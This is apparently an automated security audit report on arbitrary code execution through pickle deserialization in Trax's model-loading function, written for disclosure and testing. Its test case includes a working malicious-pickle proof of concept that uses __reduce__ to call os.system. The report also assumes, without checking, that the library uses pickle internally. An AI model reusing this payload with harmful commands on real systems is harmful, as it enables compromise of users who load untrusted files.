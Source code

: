 - Vulnerability name: Arbitrary Code Execution via Malicious Model File

- Description:
  1. An attacker crafts a malicious model file (e.g., a pickled Python object) that contains code designed to execute harmful commands on the victim's system.
  2. The attacker makes this malicious model file accessible to users, for example, by hosting it on a public website or sharing it through email or messaging platforms.
  3. A user, intending to use a pre-trained Trax model, is tricked or unknowingly downloads and attempts to load the malicious model file using the `model.init_from_file` function in Trax.
  4. During the model loading process, the `pickle.load` function deserializes the malicious model file.
  5. Because the model file is crafted by an attacker, the deserialization process executes arbitrary code embedded within the malicious file, leading to arbitrary code execution on the user's system.

- Impact:
  Critical. Successful exploitation of this vulnerability allows the attacker to execute arbitrary code on the user's machine. This can lead to a wide range of severe consequences, including:
    - Data theft and corruption: The attacker could gain access to sensitive data stored on the user's system or modify/delete critical files.
    - System compromise: The attacker could install malware, create new user accounts, or take complete control of the user's system.
    - Privacy violation: The attacker could monitor user activity, access personal information, or use the compromised system to launch further attacks.

- Vulnerability rank: Critical

- Currently implemented mitigations:
  None. Based on the provided files, there are no explicit security measures in place to prevent the loading of malicious model files. The README.md even encourages users to load models using `model.init_from_file` without mentioning any security considerations. The PROJECT FILES provided in this update do not indicate any implemented mitigations for this vulnerability.

- Missing mitigations:
    - Input validation: Implement checks to validate the model file before loading, ensuring it conforms to expected formats and does not contain malicious code. This could include:
        - File type validation: Verify that the file is indeed a Trax model file (e.g., by checking file headers or magic numbers).
        - Integrity checks: Use cryptographic signatures or checksums to ensure the model file has not been tampered with.
        - Sandboxing/Isolation: Load the model file in a sandboxed or isolated environment to limit the potential damage from malicious code execution.
    - Secure deserialization: Replace `pickle.load` with a safer deserialization method that prevents arbitrary code execution, or sanitize the loaded data to remove potentially malicious elements.
    - User education: Warn users about the risks of loading model files from untrusted sources and advise them to only load models from reliable and verified origins.

- Preconditions:
    1. The user must download or otherwise obtain a malicious model file provided by the attacker.
    2. The user must execute Python code that uses Trax's `model.init_from_file` function to load the malicious model file.

- Source code analysis:
  ```python
  # Example code snippet from README.md (not actual source code of Trax library)
  model.init_from_file('gs://trax-ml/models/translation/ende_wmt32k.pkl.gz',
                       weights_only=True)
  ```
  This code snippet demonstrates the usage of `model.init_from_file`.  Assuming this function uses `pickle.load` (or similar insecure deserialization) internally to load the `.pkl.gz` file, it becomes vulnerable to arbitrary code execution.
  When `model.init_from_file` is called with a path to a malicious pickle file, the `pickle.load` function will deserialize the file's contents. If the attacker has embedded malicious Python code within the pickle file, `pickle.load` will execute that code during the deserialization process. This happens because pickle is not designed to be secure against malicious or untrusted data.

- Security test case:
  1. Create a malicious pickle file (`malicious_model.pkl`) using Python's `pickle` library. This file should contain code that executes a simple command, such as printing a message or creating a file.
  ```python
  import pickle
  import os

  class MaliciousObject:
      def __reduce__(self):
          return (os.system, ('touch /tmp/pwned',))

   злонамеренный_объект = MaliciousObject()
  pickle.dump(злонамеренный_объект, open('malicious_model.pkl', 'wb'))
  ```
  2. Create a Python script (`test_exploit.py`) that uses Trax to load the malicious model file.
  ```python
  import trax
  from trax import models

  try:
      model = trax.models.Transformer() # or any other Trax model
      model.init_from_file('malicious_model.pkl')
  except Exception as e:
      print(f"Exception during model loading: {e}")

  print("Loading attempted.")
  ```
  3. Run the `test_exploit.py` script.
  ```bash
  python test_exploit.py
  ```
  4. Check if the command embedded in the malicious pickle file was executed. In this case, check if the file `/tmp/pwned` was created.
  ```bash
  ls -l /tmp/pwned
  ```
  If the file `/tmp/pwned` exists, it confirms that arbitrary code execution was achieved by loading the malicious model file, thus demonstrating the vulnerability. If an exception is raised during model loading, analyse the exception to confirm it's not preventing the code execution.